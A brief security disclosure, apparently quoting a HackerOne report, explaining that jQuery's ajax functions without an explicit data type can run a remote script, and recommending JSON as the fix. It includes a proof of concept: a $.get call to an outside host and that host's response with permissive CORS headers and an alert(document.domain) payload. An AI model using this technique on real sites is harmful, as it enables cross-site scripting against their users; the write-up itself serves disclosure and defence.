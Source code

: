 > From https://hackerone.com/reports/88719

It is dangerous to use jQuery's ajax function without specifying the expected data type. Attacker can supply a remote js file to achieve XSS. This can be addressed by specifying the data type to be JSON

```
$.get('https://innerht.ml/vectors/js.php')
```

https://innerht.ml/vectors/js.php
```
access-control-allow-credentials:true
access-control-allow-origin:https://jquery.com

alert(document.domain);
```
